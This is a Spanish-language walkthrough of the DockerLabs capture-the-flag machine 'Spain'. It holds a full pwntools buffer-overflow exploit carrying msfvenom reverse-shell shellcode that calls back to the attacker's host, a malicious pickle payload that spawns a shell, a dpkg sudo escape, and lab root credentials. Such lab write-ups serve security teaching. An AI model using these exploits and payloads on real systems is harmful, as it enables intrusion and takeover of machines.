



Máquina **Spain** de [DockerLabs](https://dockerlabs.es)

Autor: [Darksblack](https://github.com/DarksBlackSk)

Dificultad: Dificil



# Reconocimiento

Comenzamos con un escaneo de `nmap`:

```css
nmap -p- --open --min-rate 5000 -Pn -n -sSVC -vvv 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Wed Jan  1 15:42:15 2025 as: nmap -p- --open --min-rate 5000 -Pn -n -sSVC -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000013s latency).
Scanned at 2025-01-01 15:42:16 -03 for 8s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE     REASON         VERSION
22/tcp   open  ssh         syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 66:db:6e:23:2a:f4:01:ab:3a:41:be:a4:a7:f9:1b:d1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAgH+b8EgCWbeHUjWM7p/9xMhnyXNLNJwcEs2/t3YbYlUMtdwNIEI/pBWV+NYuSxPOh/jynK6U8Fm9C3XJL+fXA=
|   256 f3:3e:ee:2e:bb:75:63:ad:bf:7b:1e:84:81:40:2d:92 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFtQsSJOgWhxPUYu9puLmWzjGdNXrrCmUIR4CQYi6PVr
80/tcp   open  http        syn-ack ttl 64 Apache httpd 2.4.62
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Did not follow redirect to http://spainmerides.dl
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
9000/tcp open  cslistener? syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: Host: 172.17.0.2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan  1 15:42:24 2025 -- 1 IP address (1 host up) scanned in 8.89 seconds
```

Tenemos 3 puertos abiertos:

•`Puerto 22: OpenSSH 9.2p1`

•`Puerto 80: Apache httpd 2.4.62`

•`Puerto 9000: Servicio Desconocido`

ademas, como se ve en el escaneo, hay un dominio "spainmerides.dl", por lo que lo añadiremos al `/etc/hosts` de la siguiente manera:

```css
<IP>	spainmerides.dl
```

#### Fuzzing web

Luego de revisar la página y no encontrar nada útil, se me ocurre realizar fuzzing con `gobuster`:

```css
gobuster dir -u "http://spainmerides.dl" -w $seclists/directory-list-2.3-medium.txt -x php,html,txt
```

```css
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://spainmerides.dl
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 776]
/manager.php          (Status: 200) [Size: 1472]
Progress: 36222 / 882240 (4.11%)
===============================================================
Finished
===============================================================
```

si vamos a `manager.php`, veremos que hay un archivo para descargar llamado "bitlock", por lo que nos lo descargaremos.

# Intrusión

#### Binary test

Al ejecutar `file` y pasarle el binario vemos lo siguiente:

```css
bitlock: ELF 32-bit LSB executable, Intel i386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=5b79b3eebf4e41a836c862279f4a5bc868c61ce7, for GNU/Linux 3.2.0, not stripped
```

esto significa que el binario es un ejecutable de 32 bits, y según `checksec`, no tiene protecciones:

```css
❯ checksec --file=bitlock
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   52 Symbols	 No	0		3		bitlock
```

Ahora vamos a ejecutarlo para un uso normal y ver un poco su funcionalidad:

```css
❯ ./bitlock
Esperando conexiones en el puerto 9000...
```

como vemos está esperando conexiones por el puerto 9000, por lo que probablemente también sea el binario que se encuentra ejecutado en la máquina. También, si nos conectamos mediante `telnet`, y enviamos una cantidad grande de datos:

```css
❯ telnet 127.0.0.1 9000
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
AAAAAAAAAAAAAAAAAA<SNIP>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Connection closed by foreign host.
```

veremos lo siguiente en el binario:

```css
zsh: segmentation fault (core dumped)  ./bitlock
```

Esto significa que presenta una vulnerabilidad de `buffer overflow`, y como el binario no tiene protecciones, podremos armar un exploit que nos permita recibir una conexión al ejecutar una reverseshell en el.

#### Buffer Overflow

Comenzaremos a crear nuestro exploit, para esto empezaremos con la base del mismo:

```python
#!/usr/bin/env python3

from pwn import *

def exploit():

    ip='127.0.0.1'
    port='9000'


    pattern = b'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab'


    payload = pattern


    conectar = remote(ip, port)
    conectar.sendline(payload)
    conectar.close

if __name__ == "__main__":
    exploit()

```

Listo, ya tenemos la base del exploit, ahora necesitaremos de `gdb` para poder depurar el binario:

```css
gdb -q ./bitlock
```

(Para que sea mas sencillo, se puede instalar [Pwndbg](https://github.com/pwndbg/pwndbg))

en gdb ejecutamos `run` y el binario estará iniciado, ahora solo nos queda ejecutar el exploit y ver que ocurre:

```css
EIP  0x61413761 ('a7Aa')
```

Como vemos, el EIP se ha rellenado con nuestro pattern, por lo que ahora podemos obtener el valor del offset usando la herramienta `pattern_offset` de metasploit:

```css
❯ /opt/metasploit/tools/exploit/pattern_offset.rb -q a7Aa
[*] Exact match at offset 22
```

Perfecto, ya tenemos el offset, vamos a actualizar el exploit para poder **tomar el control del EIP**:

```python
#!/usr/bin/env python3

from pwn import *

def exploit():

    ip='127.0.0.1'
    port='9000'


    # Offset
    offset = 22

    # Buffer
    buffer = b"A"*offset

    # EIP
    eip = b"B"*4


    payload = buffer + eip


    conectar = remote(ip, port)
    conectar.sendline(payload)
    conectar.close

if __name__ == "__main__":
    exploit()
```

Resultado:

```css
EIP  0x42424242 ('BBBB')
```

Perfecto, ya logramos tomar el control del EIP, ahora necesitamos ver en donde se guardan los `nops` que enviemos para saber como ejecutar nuestro shellcode:

```css
#!/usr/bin/env python3

from pwn import *

def exploit():

    ip='127.0.0.1'
    port='9000'


    # Offset
    offset = 22

    # Buffer
    buffer = b"A"*offset

    # EIP
    eip = b"B"*4

    # NOPS
    nops = b"\x90"*32


    payload = buffer + eip + nops


    conectar = remote(ip, port)
    conectar.sendline(payload)
    conectar.close

if __name__ == "__main__":
    exploit()
```

Resultado:



Como vemos, nuestros nops se estan almacenando al principio de la pila, esto significa que podemos intentar utilizar la dirección del gadget `jmp esp` el cual hace un salto a "esp" y así poder ejecutar nuestro shellcode. Para saber la direccion de `jmp esp` utilizaremos la herramienta `nasm_shell` de metasploit y `objdump`:

```css
❯ /opt/metasploit/tools/exploit/nasm_shell.rb
nasm > jmp esp
00000000  FFE4              jmp esp
nasm > exit
❯ objdump -d bitlock | grep "ff e4"
 804948b:	ff e4                	jmp    *%esp
❯ 
```

Perfecto, ya tenemos la dirección:

```css
 804948b:	ff e4                	jmp    *%esp
```

Ahora solo nos queda crear un shellcode con metasploit y actualizar el exploit:

```css
msfvenom -p linux/x86/shell_reverse_tcp lhost='172.17.0.1' lport='9090' -b "\x00\xff\x0a\x0d" -f py -v shellcode
```

```css
shellcode =  b""
shellcode += b"\xda\xc8\xba\xf6\x2a\x66\x39\xd9\x74\x24\xf4"
shellcode += b"\x5b\x2b\xc9\xb1\x12\x31\x53\x17\x83\xc3\x04"
shellcode += b"\x03\xa5\x39\x84\xcc\x78\xe5\xbf\xcc\x29\x5a"
shellcode += b"\x13\x79\xcf\xd5\x72\xcd\xa9\x28\xf4\xbd\x6c"
shellcode += b"\x03\xca\x0c\x0e\x2a\x4c\x76\x66\x01\xbf\x88"
shellcode += b"\x77\x31\xc2\x88\x54\x43\x4b\x69\x2a\x25\x1c"
shellcode += b"\x3b\x19\x19\x9f\x32\x7c\x90\x20\x16\x16\x45"
shellcode += b"\x0e\xe4\x8e\xf1\x7f\x25\x2c\x6b\x09\xda\xe2"
shellcode += b"\x38\x80\xfc\xb2\xb4\x5f\x7e"
```

Ahora si, teniendo el shellcode actualizamos el exploit:

```python
#!/usr/bin/env python3

from pwn import *

def exploit():

    ip='127.0.0.1'
    port='9000'


    # Offset
    offset = 22

    # Buffer
    buffer = b"A"*offset

    # EIP
    eip = p32(0x804948b)

    # NOps
    nops = b"\x90"*32

    # Shellcode
    
    shellcode =  b""
    shellcode += b"\xda\xc8\xba\xf6\x2a\x66\x39\xd9\x74\x24\xf4"
    shellcode += b"\x5b\x2b\xc9\xb1\x12\x31\x53\x17\x83\xc3\x04"
    shellcode += b"\x03\xa5\x39\x84\xcc\x78\xe5\xbf\xcc\x29\x5a"
    shellcode += b"\x13\x79\xcf\xd5\x72\xcd\xa9\x28\xf4\xbd\x6c"
    shellcode += b"\x03\xca\x0c\x0e\x2a\x4c\x76\x66\x01\xbf\x88"
    shellcode += b"\x77\x31\xc2\x88\x54\x43\x4b\x69\x2a\x25\x1c"
    shellcode += b"\x3b\x19\x19\x9f\x32\x7c\x90\x20\x16\x16\x45"
    shellcode += b"\x0e\xe4\x8e\xf1\x7f\x25\x2c\x6b\x09\xda\xe2"
    shellcode += b"\x38\x80\xfc\xb2\xb4\x5f\x7e"


    payload = buffer + eip + nops + shellcode


    conectar = remote(ip, port)
    conectar.sendline(payload)
    conectar.close

if __name__ == "__main__":
    exploit()
```

Probamos a escuchar por el puerto 9090 con nc y a ejecutar el exploit:

```css
❯ nc -nlvp 9090
Listening on 0.0.0.0 9090

Connection received on 192.168.1.109 43892
id
uid=1000(macimo) gid=984(users) groups=984(users),954(docker),998(wheel)
```

perfecto, como vemos la shell nos llega correctamente, por lo que ahora si, finalmente vamos a volver a actualizar el exploit pero para que apunte a la maquina victima:

```python
#!/usr/bin/env python3

from pwn import *

def exploit():

    ip='172.17.0.2'
    port='9000'


    # Offset
    offset = 22

    # Buffer
    buffer = b"A"*offset

    # EIP
    eip = p32(0x804948b)

    # NOps
    nops = b"\x90"*32

    # Shellcode
    
    shellcode =  b""
    shellcode += b"\xda\xc8\xba\xf6\x2a\x66\x39\xd9\x74\x24\xf4"
    shellcode += b"\x5b\x2b\xc9\xb1\x12\x31\x53\x17\x83\xc3\x04"
    shellcode += b"\x03\xa5\x39\x84\xcc\x78\xe5\xbf\xcc\x29\x5a"
    shellcode += b"\x13\x79\xcf\xd5\x72\xcd\xa9\x28\xf4\xbd\x6c"
    shellcode += b"\x03\xca\x0c\x0e\x2a\x4c\x76\x66\x01\xbf\x88"
    shellcode += b"\x77\x31\xc2\x88\x54\x43\x4b\x69\x2a\x25\x1c"
    shellcode += b"\x3b\x19\x19\x9f\x32\x7c\x90\x20\x16\x16\x45"
    shellcode += b"\x0e\xe4\x8e\xf1\x7f\x25\x2c\x6b\x09\xda\xe2"
    shellcode += b"\x38\x80\xfc\xb2\xb4\x5f\x7e"

	# Payload
    payload = buffer + eip + nops + shellcode


    conectar = remote(ip, port)
    conectar.sendline(payload)
    conectar.close

if __name__ == "__main__":
    exploit()
```

lo ejecutamos y recibimos una conexion desde la maquina victima:

```css
❯ nc -nlvp 9090
Listening on 0.0.0.0 9090
Connection received on 172.17.0.2 57308
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# Escalada De Privilegios

### www-data

Si ejecuto `sudo -l` veo lo siguiente:

```css
www-data@dockerlabs:/$ sudo -l
Matching Defaults entries for www-data on dockerlabs:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on dockerlabs:
    (maci) NOPASSWD: /bin/python3 /home/maci/.time_seri/time.py
www-data@dockerlabs:/$ 
```

Viendo esto, intento leer el archivo .py y veo lo siguiente:

```python
import pickle
import os

file_path = "/opt/data.pk1"
config_file_path = "/home/maci/.time_seri/time.conf"

def load_pickle_file(file_path):
    """Carga un archivo pickle y devuelve su contenido."""
    if not os.path.exists(file_path):
        print(f"El archivo {file_path} no se encontró.")
        return None
    
    try:
        with open(file_path, 'rb') as f:
            data = pickle.load(f)
            return data
    except PermissionError:
        print("No tienes permiso para leer el archivo.")
    except pickle.UnpicklingError:
        print("Error al deserializar el archivo: el archivo puede estar corrupto o no es un archivo pickle válido.")
    except EOFError:
        print("El archivo está vacío o truncado.")
    except Exception as e:
        print(f"Ocurrió un error inesperado: {e}")
    
    return None

def is_serial_enabled(config_file_path):
    """Verifica si la serialización está habilitada en el archivo de configuración."""
    if not os.path.exists(config_file_path):
        print(f"El archivo de configuración {config_file_path} no se encontró.")
        return False
    
    with open(config_file_path, 'r') as config_file:
        for line in config_file:
            if line.startswith('serial='):
                value = line.split('=')[1].strip()
                return value.lower() == 'on'
    
    return False

if __name__ == "__main__":
    if is_serial_enabled(config_file_path):
        data = load_pickle_file(file_path)
        if data is not None:
            print("Datos deserializados correctamente, puedes revisar /tmp")
#            print(data)
    else:
        print("La serialización está deshabilitada. El programa no se ejecutará.")
```

primero activo la serialización en el archivo .conf:

```css
echo "" > /home/maci/.time_seri/time.conf && echo "serial=on" > /home/maci/.time_seri/time.conf 
```

 luego de buscar encontré el siguiente exploit el cual nos puede ayudar a crear el archivo .pk1:

```python
import pickle
import os

# Create a malicious class
class Malicious:
    def __reduce__(self):
        # os.system will execute the command
        return (os.system, ('echo "This is malicious code!"',))

# Serialize the malicious object
malicious_data = pickle.dumps(Malicious())

# Deserialize the malicious object (this will execute the command)
pickle.loads(malicious_data)
```

nosotros lo debemos modificar de la siguiente manera para poder ejecutar otro comando y hacer que el archivo quede en `/opt/data.pk1` como pide el script de python que podemos ejecutar como `maci`:

```css
import pickle
import os

# Create a malicious class
class Malicious:
    def __reduce__(self):
        # os.system will execute the command
        return (os.system, ('/bin/bash -p',))

# Serialize the malicious object
malicious_data = pickle.dumps(Malicious())

# Write the serialized object to a file in /tmp
with open('/opt/data.pk1', 'wb') as file:
    file.write(malicious_data)
```

lo ejecutamos, y finalmente ejecutamos el script como `maci` para escalar a maci:

```css
sudo -u maci python3 /home/maci/.time_seri/time.py 
```

### Maci

Nuevamente ejecutamos `sudo -l` y vemos lo siguiente:

```css
maci@dockerlabs:~/.time_seri$ sudo -l
Matching Defaults entries for maci on dockerlabs:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User maci may run the following commands on dockerlabs:
    (darksblack) NOPASSWD: /usr/bin/dpkg
maci@dockerlabs:~/.time_seri$ 
```

Con `dpkg` tenemos una manera muy facil de escalar:

```css
sudo -u darksblack dpkg -l
```

cuando nos aparezca mucha info, introducimos lo siguiente:

```css
!bash
```

### Darksblack

Ahora tendremos una shell como `darksblack`, el problema es que nuestra variable "PATH" esta mal, por lo que tendremos que repararla. Para esto haremos lo siguiente:

```css
echo "y" | /bin/rm ~/.bashrc && echo '#!/bin/bash' > ~/.bashrc && echo 'export PATH=/usr/bin/:/bin/:/usr/local/bin' >> ~/.bashrc
```

luego reiniciamos la shell y ya estaríamos de manera relativamente cómoda. Si nos fijamos en la home, existe un binario llamado "Olympus". Si a este lo revisamos con `strings` veremos que al parecer ejecuta otro binario en `/home/darksblack/.zprofile/OlympusValidator`, este lo pasamos a nuestra máquina local con `python3 -m http.server 9090` y lo descargamos.

## Ingenieria inversa

Para esto necesitaremos `ghidra` en el cual importaremos el archivo, luego de revisarlo un poco, veo que el serial que espera es el siguiente:

```css
A678-GHS3-OLP0-QQP1-DFMZ
```

y si ejecuto el binario y le paso ese serial me dice lo siguiente:

```css
❯ ./OlympusValidator A678-GHS3-OLP0-QQP1-DFMZ
VALIDO
Credenciales ssh root:@#*)277280)6x4n0
```

por lo que para escalar a root vamos a nuestra maquina local y nos conectamos por ssh de la siguiente manera:

```css
ssh root@172.17.0.2
```

e introducimos la contraseña "@#*)277280)6x4n0"

### Root



Gracias por leer ;)